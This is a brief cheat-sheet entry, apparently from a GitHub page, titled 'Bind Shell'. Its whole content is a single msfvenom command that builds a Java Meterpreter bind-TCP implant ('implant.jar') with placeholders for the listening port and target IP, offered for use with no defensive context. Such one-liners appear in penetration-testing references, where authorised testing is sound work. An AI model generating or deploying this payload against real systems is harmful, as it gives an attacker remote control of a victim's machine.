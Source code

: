 # Bind Shell

```
$ msfvenom -p java/meterpreter/bind_tcp lport=<PORT> [rhost=<target_IP>] -f raw -o implant.jar
```